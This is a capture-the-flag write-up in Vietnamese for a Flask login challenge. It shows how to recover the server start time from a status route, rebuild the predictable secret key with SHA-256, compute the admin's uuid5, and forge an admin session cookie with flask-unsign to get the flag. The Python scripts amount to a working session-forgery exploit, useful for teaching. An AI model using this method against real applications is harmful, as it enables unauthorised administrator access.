









start chall lên, cho 1 form login với tài khoản nào cũng được mà không cần register, tuy nhiên sẽ không nhả ra flag, suree


và nó sẽ tạo ra 1 cookie dạng JWT cho mỗi người dùng login


mình view source

flag nằm ở route `admin`


tuy nhiên để có quyền vào được `/admin` thì cần cung cấp 1 cookie thỏa mãn dòng 50, cần bypass 3 giá trị

tại dòng 10 chứa giá trị key dùng để mã encrypt và decrypt cookie, sử dụng` mã đối xứng sha256`. Nó nối chuỗi `secret_key` với `$server_start_str` được định nghĩa bên trên.


Vấn đề đặt ra là chúng ta chưa biết `server_start_time` ở remote là bao nhiêu?


để ý thấy đoạn code trong route `/status`. Lợi dụng dòng 57 chúng ta có thể lấy được `server_start_time`

`server_start_time = current_time - uptime`


mà `uptime` thì đã biết


biết script lấy `server_start_time`

```
from datetime import datetime, timedelta

# Định nghĩa các biến
current_time_str = "2024-09-21 10:34:46"
uptime_str = "0:04:32"

# Chuyển đổi chuỗi thành đối tượng datetime
current_time = datetime.strptime(current_time_str, '%Y-%m-%d %H:%M:%S')

# Chuyển đổi uptime thành timedelta
hours, minutes, seconds = map(int, uptime_str.split(':'))
uptime = timedelta(hours=hours, minutes=minutes, seconds=seconds)

# Tính toán server_start_time
server_start_time = current_time - uptime

# Định dạng server_start_time
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')

print(server_start_str)

```

script lấy `uuid` của admin

```
import uuid
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
uid = uuid.uuid5(secret, 'administrator')
print(uid)
```

script lấy `secure_key`

```
import hashlib

# Định dạng server_start_str từ thời gian khởi động
server_start_str = "20240921103014"  

# Tạo chuỗi bí mật và tính secure_key
secret_key_base = f'secret_key_{server_start_str}'
secure_key = hashlib.sha256(secret_key_base.encode()).hexdigest()

print(secure_key)

```

vậy là xong rồi đó, dùng `flask-unsign` để tạo cookie mới thôi


lấy flag


FLAG: `PCTF{Imp3rs0n4t10n_Iz_Sup3r_Ezz}`


